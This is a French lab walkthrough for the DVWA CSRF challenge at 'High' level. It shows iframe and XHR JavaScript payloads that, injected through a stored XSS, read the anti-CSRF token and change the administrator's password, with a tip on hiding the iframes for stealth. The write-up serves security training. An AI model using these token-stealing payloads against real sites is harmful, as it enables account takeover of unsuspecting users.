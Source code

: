 # Niveau "High"

L’analyse du formulaire indique la présence d’un champ caché nommé "user\_token" (il s'agit d'un jeton anti-CSRF). La valeur de ce champ est régénérée pour chaque requête :

![](../../../../.gitbook/assets/0c0892194f080f693dd38eeb63b57a68.png)

La requête effectuée lors du changement du mot de passe est de type **`GET`** :

![](../../../../.gitbook/assets/0ac49605cff888b7999e10835c367deb.png)

Les premiers tests à faire sont sans doute de vérifier la bonne implémentation du jeton. Que se passe t'il en cas de champ vide ou si le champ n'est pas présent ? Ici l'implémentation semble correcte et le jeton est donc obligatoire :

![](../../../../.gitbook/assets/3e8676642a89f875399827af3216b0c4.png)



Une faille XSS permet de contourner une protection basée sur un jeton anti-CSRF (qu'il soit per-request ou per-session). Cela se fait en deux étapes :

* Une première requête va permettre de récupérer un jeton CSRF présent sur la page du challenge
* Une seconde requête, comprenant le jeton fraîchement récupéré, va modifier le mot de passe de la victime

****

**Exploitation via des iframes**

Nous affichons une première `<iframe>` qui va afficher la page du challenge afin de récupérer le jeton. La mécanique de récupération se fait grâce à la méthode `readFrame1()` :

```markup
<iframe src="http://192.168.56.203:8080/vulnerabilities/csrf" onload="readFrame1()" id="frame1"></iframe>
```

Voici la fonction `readFrame1()` (hébergée dans un fichier nommé "csrf.js" sur un serveur malicieux) :

{% code title="csrf.js" %}
```javascript
function readFrame() {
  var token='&user_token=' + document.getElementById("frame1").contentDocument.getElementsByName("user_token")[0].value;
  var link = "http://192.168.56.203:8080/vulnerabilities/csrf?password_new=hacked&password_conf=hacked&Change=Change"+token;
  document.getElementById("frame2").src=link;
}
```
{% endcode %}

La variable `token` va contenir la chaîne suivante : `"&user_token=jeton_csrf_récupérée"`. Nous allons ensuite assigner à une seconde `<iframe>` une URL représentant la requête **`GET`** effectuant le changement de mot de passe.

Cette `<iframe>` sera appelée de cette façon :

```markup
<iframe id="frame2"></iframe>
```

Ci-dessous la payload ainsi que son affichage lors de l'exécution. Bien penser à injecter la payload en mode "Low" mais de repasser en mode "High" pour son exploitation :

![](<../../../../.gitbook/assets/3b6e8a0ec33f5961bef8be1b5f820505 (1).png>)

{% hint style="info" %}
Afin de rendre l'attaque plus discrète, il est possible de ne pas afficher les `<iframe>` grâce au style CSS `style="display:none"`
{% endhint %}

Une fois que l'administrateur visitera la page du challenge XSS, son mot de passe sera changé :

![](../../../../.gitbook/assets/1fb2b3663d21dad270b6c81e9e61e79c.png)

****

**Exploitation via des requêtes XHR**

Un peu plus moderne, il est possible d'effectuer la même attaque en utilisant deux requêtes **`XHR`**. La première va permettre de récupérer le jeton :

```javascript
var xhr = new XMLHttpRequest();
xhr.open('GET', 'http://192.168.56.203:8080/vulnerabilities/csrf', true);
xhr.withCredentials = true;
xhr.responseType = "document";

xhr.onload = function () {
        var token = xhr.response.getElementsByName('user_token')[0].value;
        
        // Exécuter Requête 2, changement de mot de passe
};

xhr.send();
```

Et la seconde, d'effectuer le changement de mot de passe une fois la première requête exécutée (et le jeton récupéré) :

> ```javascript
>    // Requête 2
>    var xhr2 = new XMLHttpRequest();
>    xhr2.open('GET', 'http://192.168.56.203:8080/vulnerabilities/csrf/?password_new=hacked&password_conf=hacked&Change=Change&user_token=' + token, true);
>    xhr2.send();
> ```

La mise en place de la payload s'effectue toujours en se servant de la vulnérabilité XSS en niveau "Low" :

![](../../../../.gitbook/assets/7cf8487e2619f973ab30e38f5ea8f209.png)

Lorsque la victime exécutera la payload XSS cela va déclencher l'attaque CSRF (repasser en "High") :

![](../../../../.gitbook/assets/8016744e58ba30e8ff427294598eacfc.png)

Le mot de passe de l'administrateur a bien été changé suite à sa visite (du challenge XSS) :

![](../../../../.gitbook/assets/94ceb456695bfa0da35e85c676d73400.png)


